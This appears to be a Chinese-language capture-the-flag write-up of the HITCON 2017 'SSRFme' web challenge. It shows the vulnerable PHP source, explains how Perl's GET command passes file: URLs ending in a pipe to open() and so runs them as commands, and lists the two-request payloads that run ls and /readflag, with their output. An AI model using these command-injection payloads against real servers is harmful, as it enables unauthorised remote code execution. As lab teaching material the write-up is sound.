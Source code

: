 ![[Pasted image 20230110085126.png|500]]

---

```php
<?php
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $http_x_headers = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
        $_SERVER['REMOTE_ADDR'] = $http_x_headers[0];
    }

    echo $_SERVER["REMOTE_ADDR"];

    $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
    @mkdir($sandbox);
    @chdir($sandbox);

    $data = shell_exec("GET " . escapeshellarg($_GET["url"]));
    $info = pathinfo($_GET["filename"]);
    $dir  = str_replace(".", "", basename($info["dirname"]));
    @mkdir($dir);
    @chdir($dir);
    @file_put_contents(basename($info["basename"]), $data);
    highlight_file(__FILE__);
?>
```

参考 [大佬的wp](https://f002.backblazeb2.com/file/sec-news-backup/files/writeup/ricterz.me/_posts_HITCON_202017_20SSRFme/index.html)

![[Pasted image 20230110122535.png|300]]

`GET`是`perl`的一个命令，对于`file`协议的处理调用了`open`函数来实现，而`open`函数支持管道形式的文件句柄，因此可以将命令的结果作为文件处理。

由于`GET`处理`file`协议时在调用`open`前进行了一次文件存在的判断，因此需要访问两次，第一次利用`file_put_contents`创建文件，第二次进行命令执行

```
/?url=file:ls /|&filename=ls /|
```

```
/?url=file:ls /|&filename=ls /|
```

```
/sandbox/xxxx/ls /|
```

```
bin
boot
dev
etc
flag
home
lib
lib64
media
mnt
opt
proc
readflag
root
run
sbin
srv
start.sh
sys
tmp
usr
var
```

有个`readflag`，直接执行

```
/?url=file:bash -c /readflag|&filename=bash -c /readflag|
```

```
/sandbox/xxxx/bash -c /readflag|
```

```
flag is flag{1a5541cb-126c-4986-be35-c82a6c98bb6f}
```

#Web #RCE #perl #file #protocol #open #function